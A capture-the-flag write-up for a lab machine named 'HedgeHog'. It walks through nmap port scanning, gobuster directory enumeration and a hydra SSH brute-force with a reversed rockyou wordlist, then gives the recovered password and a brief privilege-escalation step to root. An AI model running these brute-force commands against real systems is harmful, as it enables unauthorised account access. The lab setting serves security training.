








# HedgeHog

## Port Enumeration

We begin our scan using the Nmap tool during the discovery phase. The following open ports are identified:

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2  
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64

```

## Examining web page.

When accessing the web page, we see text containing the word "tails". Examining the source code reveals no additional information.



### Directory-Listing

We use Gobuster to search for hidden directories or files:

```ruby
gobuster dir -u http://172.17.0.2/ -t 300 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt  -r 
```

However, no interesting results are found.





## Intrusion

We attempt to access the SSH service using "tails" as a potential username:


```ruby
sudo hydra -l tails -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -I
``` 



Initially, no valid password is found for the user "tails".

Given the hint in the word "tails", we decide to start from the end of the dictionary. We use the `tac` command to invert the password list:

```ruby
tac rockyou.txt >> rockyou_invertido.txt
```

We remove unnecessary spaces from the file:




```ruby
sed -i 's/ //g' invertido.txt
```




We then re-run Hydra with the inverted dictionary and successfully find the password:



```ruby
user: tails
passwd: 3117548331
```

## Privilege Escalation

After connecting to the SSH service with the discovered credentials, we attempt to escalate privileges.



We find that another user, "sonic", can execute any command. We switch to the sonic user and execute a terminal to escalate to root. 

